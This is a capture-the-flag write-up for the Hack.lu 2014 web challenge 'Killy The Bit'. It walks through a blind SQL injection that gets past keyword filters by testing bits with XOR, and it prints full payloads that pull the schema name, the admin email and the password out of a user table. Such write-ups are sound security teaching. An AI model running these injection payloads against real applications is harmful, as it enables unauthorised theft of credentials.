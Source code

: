 ## Hack.lu CTF 2014 - Killy The Bit (Web 200)
##### 21-23/10/2014 (48hr)
___

### Description: 
Killy the Bit is one of the dangerous kittens of the wild west. He already flip-
ped bits in most of the states and recently hacked the Royal Bank of Fluxembourg. 
All customer of the bank are now advised to change their password for the next 
release of the bank's website which will be launched on the 23.10.2014 10:01 CEST. 

Killy the Bit stands in your debt and sent the following link. Can you break the 
password generation process in order to get access to the admin account?	

___
### Solution

The source code reveals that this is an Blind SQL injection. The filters are: sleep, 
benchmark, and, or, |, &. However things can become more difficult because we can't use
names like ORD() (contains 'or'), or INFROMATION_SCHEMA.tables (contais 'or' too). Let's
try to craft 2 valid sql injection statements:

First we create a statement that returns TRUE:
```
	SELECT name,email 
	FROM user 
	WHERE name=' UNION ALL SELECT name, email FROM user WHERE 1=1--  
```
	
The page that returned to user, contains the following response: "A new password was 
generated and sent to your email address!". Now let's create the FALSE statement:
```
	SELECT name,email 
	FROM user 
	WHERE name=' UNION ALL SELECT name, email FROM user WHERE 1=0--  
```

The page that reuturned contains this time the message: "We couldn't find your username!
Are you sure it is ' UNION ALL SELECT name, email FROM user WHERE 1=0-- ?"

Awesome! Now we have a way to extract data from the database. We can extract 1 bit of 
information at a time. The classic way to do this is by reading a character and getting 
the value of each bit (we need 8 requests for each character). In order to do this we
need the & operator:
```
	if( character & 128 == 0 ) 1st bit = 0. else 1st bit = 1
	if( character & 64  == 0 ) 2nd bit = 0. else 2nd bit = 1
	.... and so on.
```
	
The other way is to do a binary search (< and > are allowed), but we'll do something 
different: & and | are not allowed, but XOR is allowed: ^

So, how we can check the value of a specified bit using XOR? Consider a number x. Then:
```
	if( x^128 > x ) then 1st bit = 0 else 1st bit = 1
	if( x^64  > x ) then 2nd bit = 0 else 2nd bit = 1
	.... and so on.
```
	
But why this is right? If MSBit of x is 1 then by XORing it with 128=1000000(2) we'll flip
the MSBit. If the bit was 0 then by flipping it the result will be greater that the initial
number. But if the bit was 1, after flipping will be 0, and the result will be smaller than
the initial value.
Now, let's start by finding the database name. The query we insert is:
```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR(SCHEMA(),$_i_$,1))>
		     (ASCII(SUBSTR(SCHEMA(),$_i_$,1))^$_mask_$)--+	
	&submit=Generate#
```
	
Where the variable $_i_$ gets the values 1,2,3... and the variable $_mask_$ the values 128,
64,32,16,8,4,2 and 1. After executing the script (see below) we can get the database name:
``
	ctf-level
```
	
Now let's get admin's email. The query is:
```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR((SELECT email FROM user WHERE name='admin'),$_i_$,1))>
		     (ASCII(SUBSTR((SELECT email FROM user WHERE name='admin'),$_i_$,1))^$_mask_$)--+
	&submit=Generate#
```

After many requests, we get the admin's email: admin@bankoffluxembourg.com
But we want admin's password. We have a table, and it has 2 columns "name" and "email". It's very
like to has a column for the password. Let's try common names for password columns: "pass", "pw", 
"passwd", "password" (cannot be used -> contains 'or'). We find that the correct column name is
"passwd". Now let's get the admin's password:
```
	?name='+UNION+ALL+SELECT+name,email+
		FROM+user+
		WHERE+ASCII(SUBSTR((SELECT passwd FROM user WHERE name='admin'),$_i_$,1))>
		     (ASCII(SUBSTR((SELECT passwd FROM user WHERE name='admin'),$_i_$,1))^$_mask_$)--+
		&submit=Generate#
```

After many requests, we get the flag: **flag{Killy_The_Bit_Is_Wanted_for_9000_$$_FoR_FlipPing_Bits}.**

___	

After getting the flag, the authors post the following hints:
Hint: Blind SQLi is not a good solution. You can get the correct and complete flag with one single request!
Hint: The password's column name is 'passwd'.

:(

___
